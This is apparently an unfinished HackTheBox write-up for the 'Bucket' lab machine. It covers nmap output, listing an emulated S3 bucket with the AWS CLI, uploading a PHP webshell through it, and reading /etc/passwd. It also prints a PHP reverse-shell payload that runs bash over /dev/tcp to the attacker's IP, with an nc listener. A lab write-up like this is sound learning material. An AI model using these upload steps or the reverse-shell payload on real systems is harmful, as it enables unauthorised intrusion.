









# Hackthebox - Bucket



- [Box on HTB](https://app.hackthebox.com/machines/283)

- Linux

## Nmap

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://bucket.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.99 seconds
```

- We need to add this to our etc/hosts `10.10.10.212 bucket.htb`

## Port 80

First we need to launch burp in order to keep what we browse in our proxy history.  

We land here when accessing `http://bucket.htb/`  

  

There's a reference to an s3 bucket here  

  

We can add a this line to our `/etc/hosts` `10.10.10.212 bucket.htb s3.bucket.htb`

Now when accessing the image we find interesting headers in our burp history  

```http
x-amz-request-id: 2523F45736DE9BCD
x-amz-id-2: MzRISOwyjmnup2523F45736DE9BCD7/JypPGXLh0OVFGcJaaO3KW/hRAqKOpIEEp
```

This seems to simulate an aws bucket  
We can create a profile with this command we do not need to put valid keys `aws configure --profile htb-bucket`  

We are now able to list the content of the remote machine  
  

Let's see what we have in adserver  

  

Let's download the files to our local machine to inspect them  

  

When browsing in the website we noticed that it was hosted on Apache. What could be interesting is to see if we could upload a php shell using the access we have on the bucket.  
Let's try this.  
We first try a simple php webshell. And cp it to our target  
`aws --endpoint-url=http://s3.bucket.htb s3 cp webshell.php s3://adserver`  
It works but our files get deleted pretty quickly.  
  
I still managed to get passwd file to see the users  

  

We have 2 users root and roy  

```txt
root:x:0:0:root:/root:/bin/bash
roy:x:1000:1000:,,,:/home/roy:/bin/bash
```

Let's try to get a reverse shell

This php code should work  

```php
<?php exec('/bin/bash -c \"bash -i >& /dev/tcp/YOUR-IP/1234 0>&1 \"');
?>
```

We set up a listener `sudo rlwrap nc -lnvp 1234`

And we get a shell as www-data  

  

We will still need to make a lateral movement to get the user because we can not see the user.txt file for now.  

## COMING SOON

  